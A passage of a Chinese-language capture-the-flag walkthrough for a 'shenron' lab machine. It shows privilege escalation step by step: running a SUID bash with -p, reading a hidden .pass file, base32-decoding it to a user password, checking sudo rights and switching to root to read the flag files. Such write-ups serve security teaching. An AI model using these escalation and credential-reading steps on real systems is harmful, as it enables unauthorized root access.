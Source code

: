 知道提权方法了，直接提权

```
`/mnt/bash -p``id`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

我们有了shenron的权限，查找一下可利用的信息

```
`cd /home/shenron/Desktop``ls -al``cat local.txt`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

我们在/home/shenron/Desktop目录下找到了2个文件，其中local.txt是我们的第1个flag，查看下.pass文件

```
cat .pass
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

获取到加密的字符串，拿去分析下

```
https://www.dcode.fr/identification-chiffrement
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

decode.fr识别出是base32加密，我们解一下

```
echo 'KNUEK3SSN5HFG2CFNZJG6TSTNBCW4UTPJZJWQRLOKJXU4U3IIVXFE32OIBJWQRLOKJXU4I2TNBCW4UTPJZIGCU3TK5XVEZAK' | base32 -d
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

拿到密码ShEnRoNShEnRoNShEnRoNShEnRoNShEnRoN@ShEnRoN#ShEnRoNPaSsWoRd，切换到shenron用户试试

```
`su shenron``输入密码ShEnRoNShEnRoNShEnRoNShEnRoNShEnRoN@ShEnRoN#ShEnRoNPaSsWoRd``id`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

切换成功，查找一下可提权的信息

```
`sudo -l``输入密码ShEnRoNShEnRoNShEnRoNShEnRoNShEnRoN@ShEnRoN#ShEnRoNPaSsWoRd`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

作者累了吗？不想再多一道门槛了吗？直接切换到root用户

```
`sudo su``cd /root``ls``cat root.txt`
```
